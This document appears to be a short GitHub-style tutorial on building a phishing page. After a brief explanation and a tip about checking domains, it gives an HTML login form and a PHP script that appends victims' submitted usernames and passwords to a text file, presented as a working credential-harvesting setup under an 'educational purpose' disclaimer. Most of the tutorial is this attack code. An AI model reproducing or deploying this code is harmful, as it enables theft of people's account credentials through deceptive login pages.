 # Phishing Tutoral
If you haven't heard about ```phishing``` , then you should. Phising is an old, traditional way to retrieve your account password. The basic idea behind phishing is to create a copy of login or whole website and allow user to login so as to save account credentials. 
eg. an attacker creates a copy of gmail page, which exactly looks similar to the original, but coded in a way that it will store credentials whenever someone tries to login through that page. Now the attacker will share the link of his phising page somehow (through mails, messages, web links, etc.) and attacker has all the credentials of all the users who tried to login through phishing page.

### For security: Always confirm the url of the website you're loggin in. Don't try to login with your original credentials on some fake, similar looking page having some other domain.
ie. don't try to login on phishing.etc/github (some github phishing page) with your original github.com credentials. 
Note that git-hub.com and github.com are two different domains. :D

# Let's start some phishing stuff
We will use ```PHP``` to manage our data and store the credentials in flat files.
In this tutorial we are not going to copy any page but in reality, phishing pages are exactly similar to original pages.
This can be simply achieved by copying the source code.
Okay, enough intro, let's make it work.

Here is simple html form

```
<form action="save.php" method="POST">
  Username:
  <input type="text" name="username"/>
  <input type="password" name="password"/>
  <input type="submit" value="Submit"/>
</form>
```

This sends the victim to ```save.php``` this is where the credentials will be stored.
Code:

```
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$file = fopen("data.txt", "a") or die("some error occured"); //open file, create if doesn't exist
$txt = "$username $password\n"; //store data as username password
fwrite($file, $txt); //write to our file
fclose($file); //close the file handle

echo 'Your username and password is stored in our database. Change it soon!';

```

Done. Pretty easy!
##### I didn't test the code, I wrote it directly. If you see some problem there, please inform.

#### Note: This tutorial for educational purpose don't use it for illegal purposes.

